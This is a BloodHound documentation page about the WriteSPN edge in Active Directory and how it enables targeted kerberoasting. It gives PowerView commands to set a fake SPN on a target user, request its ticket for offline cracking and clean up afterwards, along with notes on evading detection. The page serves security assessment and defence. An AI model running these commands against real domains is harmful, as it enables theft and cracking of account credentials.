 ---
title: WriteSPN
description: The ability to write directly to the servicePrincipalNames attribute on a user object. 
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


Writing to this property gives you the opportunity to perform a targeted kerberoasting attack against that user.

## Abuse Info

A targeted kerberoast attack can be performed using PowerView’s Set-DomainObject along with Get-DomainSPNTicket.

You may need to authenticate to the Domain Controller as the user with full control over the target user if you are not running a process as that user. To do this in conjunction with Set-DomainObject, first create a PSCredential object (these examples comes from the PowerView help documentation):

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\\dfm.a', $SecPassword)
```

Then, use Set-DomainObject, optionally specifying $Cred if you are not already running a process as the user with full control over the target user.
```
Set-DomainObject -Credential $Cred -Identity harmj0y -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
```
After running this, you can use Get-DomainSPNTicket as follows:
```
Get-DomainSPNTicket -Credential $Cred harmj0y | fl
```
The recovered hash can be cracked offline using the tool of your choice. Cleanup of the ServicePrincipalName can be done with the Set-DomainObject command:
```
Set-DomainObject -Credential $Cred -Identity harmj0y -Clear serviceprincipalname
```
## Opsec Considerations

Modifying the servicePrincipalName attribute will not, by default, generate an event on the Domain Controller. Your target may have configured logging on users to generate 5136 events whenever a directory service is modified, but this configuration is very rare.

## Edge Schema

Source: [User](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/user), [Group](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/group), [Computer](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/computer)   
Destination: [User](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/user)  
Traversable: **Yes**  

## References

* [https://blog.harmj0y.net/redteaming/kerberoasting-revisited/](https://blog.harmj0y.net/redteaming/kerberoasting-revisited/)

